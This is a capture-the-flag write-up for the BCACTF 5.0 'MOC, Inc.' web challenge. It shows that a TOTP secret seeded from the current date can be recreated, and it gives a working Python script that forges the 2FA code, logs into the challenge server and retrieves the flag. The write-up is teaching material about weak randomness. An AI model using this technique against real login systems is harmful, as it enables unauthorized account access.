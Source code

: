 # BCACTF 5.0

## MOC, Inc.

> Towards the end of last month, we started receiving reports about suspicious activity coming from a company called MOC, Inc. Our investigative team has tracked down their secret company portal and cracked the credentials to the admin account, but could not bypass the advanced 2FA system. Can you find your way in?
> 
> *username: admin*
> *password: admin*
> 
> Author: Thomas
> 
> [`app.py`](app.py)

Tags: _web__

## Solution
For this challenge we get the source code for a small web app. It has a login where we can enter username, password and a 2FA code. The username and password is given to us in the description (both `admin`). The problem is the 2FA code. Lets check out the app source code, to see what else we can find.

![](login.png)

```python
@app.post('/')
def log_in():
    with sqlite3.connect('moc-inc.db') as db:
        result = db.cursor().execute(
            'SELECT totp_secret FROM user WHERE username = ? AND password = ?',
            (request.form['username'], request.form['password'])
        ).fetchone()

    if result == None:
        return render_template('portal.html', message='Invalid username/password.')

    totp = pyotp.TOTP(result[0])

    if totp.verify(request.form['totp']):
        with open('../flag.txt') as file:
            return render_template('portal.html', message=file.read())

    return render_template('portal.html', message='2FA code is incorrect.')
```

The login looks fairly ok. The `OTP secret` is fetched for the user, no obvious injection possible here. Then the `one time password` is generated using `pyotp`. There could be issues with the library of course, but lets see if we find anything else in this code.

```python
with sqlite3.connect('moc-inc.db') as db:
    db.cursor().execute('''CREATE TABLE IF NOT EXISTS user (
        username TEXT UNIQUE NOT NULL,
        password TEXT NOT NULL,
        totp_secret TEXT NOT NULL
    )''')
    db.commit()

if __name__ == '__main__':
    if len(sys.argv) == 3:
        SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

        totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

        with sqlite3.connect('moc-inc.db') as db:
            db.cursor().execute('''INSERT INTO user (
                username,
                password,
                totp_secret
            ) VALUES (?, ?, ?)''', (sys.argv[1], sys.argv[2], totp_secret))
            db.commit()

        print('Created user:')
        print('  Username:\t' + sys.argv[1])
        print('  Password:\t' + sys.argv[2])
        print('  TOTP Secret:\t' + totp_secret)

        exit(0)

    app.run()
```

If the script is run it connects to a `sqlite` database and creates a table `user` (if not existing). If the script is called with arguments it creates a user and stores the `totp_secret` to the user record. The secret is generated by choosing 20 random characters from an alphabet. That looks fine too.

```python
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])
```

Right at the top of the source file we find one interesting line. It initializes the random seed by using a string with format `Y-m-d`, so `2024-06-11` for instance. Thats obviously dangerous, since the seed is important for the generation of the `secret` and the seed resolution is very, very coarse.

```python
random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))
```

So, if we can guess the day where the admin user was creates, we know the seed and with that we can just recreate the secret. In the description is mentioned `Towards the end of last month, we started receiving reports about suspicious activity..`, maybe thats an hint pointing to the correct date. So we start by `2024-05-31` and going backwards. 

One interestng bit. The verification function is called with only one parameter. The function has two optional parameters `for_time` and `valid_window` (which are both not specified). As a fallback `for_time` is chosen as `datetime.datetime.now()` [`totp.py:76`](https://github.com/pyauth/pyotp/blob/249674bf2814e1fcc3152c618514159cd44b4610/src/pyotp/totp.py#L76). So we just create the OTP also just in time.

The following script then calculates the secret for the specified date, calculates the `OTP` and tries to login. If successful it prints the flag. Then we can just manually adapt the day and see which day works.

```python
import datetime, random, pyotp, requests

random.seed("2024-05-27")
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'
totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])
print(f"secret = {totp_secret}")
totp = pyotp.TOTP(totp_secret)

time = datetime.datetime.now()
print(f"time = {time}")
print(f"OTP = {totp.at(time)}")

data = {
        "username": "admin",
        "password": "admin",
        "totp": f"{totp.at(time)}"
       }

resp = requests.post("http://challs.bcactf.com:31772/", data=data)
if "2FA code is incorrect" not in resp.text:
    print(resp.text)
else:
    print("fail")
```

```bash
$ python login.py
secret = ZID4OV36AMSVZJVLUMCN
time = 2024-06-12 00:04:27.733043
OTP = 158125
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=device-width,initial-scale=1.0" />
        <title>MOC, Inc.</title>
    </head>
    <body>
        bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}
    </body>
</html>
```

Flag `bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}`